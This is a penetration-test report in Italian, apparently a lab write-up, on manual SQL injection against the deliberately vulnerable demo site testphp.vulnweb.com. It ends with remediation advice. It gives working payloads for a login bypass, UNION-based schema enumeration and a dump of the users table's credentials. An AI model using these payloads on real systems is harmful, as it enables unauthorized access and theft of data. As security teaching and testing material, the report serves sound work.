




# Manual SQL Injection (SQLi)

---

## 1 Executive Summary

Durante l'attività di Security Assessment eseguita sul target `testphp.vulnweb.com`, sono state individuate molteplici vulnerabilità critiche di tipo SQL Injection (SQLi).

Queste vulnerabilità permettono a un attaccante non autenticato di:

- Bypassare i meccanismi di autenticazione, accedendo come amministratore senza conoscere la password.
- Eseguire query arbitrarie sul database di backend.
- Esfiltrare l'intero contenuto del database, inclusi dati sensibili come credenziali utente, numeri di carte di credito e informazioni personali.

Il livello di rischio è valutato come CRITICO poiché la compromissione è totale (Confidentiality, Integrity, Availability).

---

## 2 Technical Analysis

#### Scenario A: Authentication Bypass (Login)

Il modulo di login non sanitizza correttamente l'input utente, permettendo l'iniezione di frammenti SQL che alterano la logica della query di autenticazione.

Endpoint: `http://testphp.vulnweb.com/login.php`

Vector: Campo `Username`

Payload (Exploit):

```SQL
admin' #
```



Analisi Tecnica:

La query backend presunta è: `SELECT * FROM users WHERE user = '$username' AND pass = '$password'`;

Iniettando il payload, la query diventa:

```SQL
SELECT * FROM users WHERE user = 'admin' # AND pass = '...';
```

Il carattere `#` (hash) viene interpretato da MySQL come un commento, troncando il resto della query. Il controllo della password viene ignorato e l'attaccante ottiene l'accesso come utente `admin`.

Evidenza:

Accesso eseguito con successo alla dashboard amministrativa.

#### Scenario B: UNION Based Injection (Data Extraction)

L'endpoint `artists.php` tramite il parametro GET `artist` è vulnerabile a UNION-Based SQL Injection. Questo permette di unire i risultati della query originale con i risultati di una query iniettata dall'attaccante.

Endpoint: `http://testphp.vulnweb.com/artists.php?artist=1`

Fase 1: Reconnaissance & Fingerprinting

Per sfruttare la vulnerabilità, è stato necessario determinare il numero di colonne nella tabella corrente e identificare quali colonne vengono mostrate a video (reflected).

- Enumerazione Colonne: `ORDER BY 3` (Successo), `ORDER BY 4` (Errore). La tabella ha 3 colonne.
- Identificazione Output: Usando un ID inesistente (`-1`) e `UNION SELECT 1, 2, 3`, è stato identificato che la colonna 2 e 3 sono visibili all'utente.
- Fingerprinting: Estrazione versione e utente DB.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, version(), user()
```


Evidenza:

Il server rivela la versione `8.0.22-0ubuntu` e l'utente `acuart@localhost`.

Scenario C: Database Dumping (The Kill Chain)

Sfruttando la vulnerabilità UNION, è stata eseguita l'esfiltrazione completa dello schema del database e dei dati sensibili.

#### Step 1: Enumerazione Tabelle

Accesso alla tabella di sistema `information_schema.tables` per elencare tutte le tabelle presenti.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, group_concat(table_name), 3 FROM information_schema.tables WHERE table_schema=database()
```



Risultato: `artists, carts, categ, featured, guestbook, pictures, products, users`.

La tabella `users` è stata identificata come target di alto valore.

#### Step 2: Enumerazione Colonne

Accesso a `information_schema.columns` per scoprire la struttura della tabella `users`.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, group_concat(column_name), 3 FROM information_schema.columns WHERE table_name='users'
```



Risultato: `uname, pass, cc, address, email, name, phone`.

#### Step 3: Data Exfiltration (Dump Finale)

Estrazione massiva di username e password dalla tabella users.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, group_concat(uname,0x3a,pass), 3 FROM users
```



(Nota: `0x3a` è la rappresentazione esadecimale dei due punti `:` usati come separatore).

Evidenza (Loot):

Il server restituisce le credenziali in chiaro direttamente nella pagina, dimostrando la compromissione totale della riservatezza dei dati:

- Credenziali esatte: `test:test`
- (Eventuali altri utenti admin)

---

## 3 Remediation Strategy (Difesa)

Per mitigare le vulnerabilità identificate, si raccomanda l'adozione immediata delle seguenti pratiche di Secure Coding:

1. Prepared Statements (Obbligatorio):
    
Abbandonare la costruzione dinamica delle query tramite concatenazione di stringhe. Utilizzare Prepared Statements (es. `PDO` in PHP o `PreparedStatement` in Java) che separano rigorosamente la struttura SQL dai dati forniti dall'utente.

Esempio (PHP Secure):

```PHP
$stmt = $pdo->prepare('SELECT * FROM users WHERE user = :user');
$stmt->execute(['user' => $username]);
$user = $stmt->fetch();
```

2. Input Validation:

Implementare una validazione stretta (Allow-list) su tutti gli input.

- Se il parametro `artist` deve essere un numero, forzare il tipo a `Integer`.
- Rifiutare qualsiasi input che contenga caratteri non attesi.

3. Principio del Minimo Privilegio (Least Privilege):

L'utente del database utilizzato dall'applicazione web non dovrebbe avere accesso a tabelle di sistema (`information_schema`) o permessi di scrittura se non strettamente necessari.

4. WAF (Web Application Firewall):

Come misura di difesa in profondità, implementare un WAF per rilevare e bloccare pattern di attacco SQL comuni (es. `UNION SELECT`, `OR 1=1`).